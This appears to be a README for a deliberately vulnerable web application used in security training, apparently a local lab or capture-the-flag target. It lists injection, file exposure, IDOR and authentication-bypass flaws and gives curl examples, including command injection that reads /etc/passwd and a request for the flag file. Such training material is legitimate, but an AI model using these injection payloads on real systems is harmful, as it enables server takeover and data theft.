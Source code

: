 ## 🚨 **Major Security Vulnerabilities**

### 1. **Command Injection (RCE)** 💥
- **Location**: Search functionality, debug endpoints
- **Impact**: Complete server takeover
- **Severity**: Critical

### 2. **File Exposure Vulnerability** 📁
- **Location**: `/secret` endpoint
- **Impact**: System file access, configuration disclosure
- **Severity**: Critical

### 3. **IDOR (Insecure Direct Object Reference)** 🔍
- **Location**: Profile access endpoints
- **Impact**: User data enumeration, privacy violation
- **Severity**: High

### 4. **Database Direct Access** 🗄️
- **Location**: `/owner/database` endpoint
- **Impact**: Complete database compromise
- **Severity**: Critical

### 5. **Authentication Bypass** 🔓
- **Location**: Multiple admin/owner endpoints
- **Impact**: Privilege escalation
- **Severity**: Critical

### 6. **PII Exposure** 💳
- **Location**: Orders and payment endpoints
- **Impact**: Identity theft, financial fraud
- **Severity**: Critical

## 🧪 **Exploitation Examples**

### Command Injection Testing
```bash
# Test basic command injection
curl "http://localhost:9001/products?search=ls"

# Test system information
curl "http://localhost:9001/products?search=whoami"

# Test file system access
curl "http://localhost:9001/products?search=cat%20/etc/passwd"
```

### File Exposure Testing
```bash
# Access the file explorer
curl "http://localhost:9001/secret"

# Direct access to flag
curl "http://localhost:9001/secret?file=flag.txt"
```
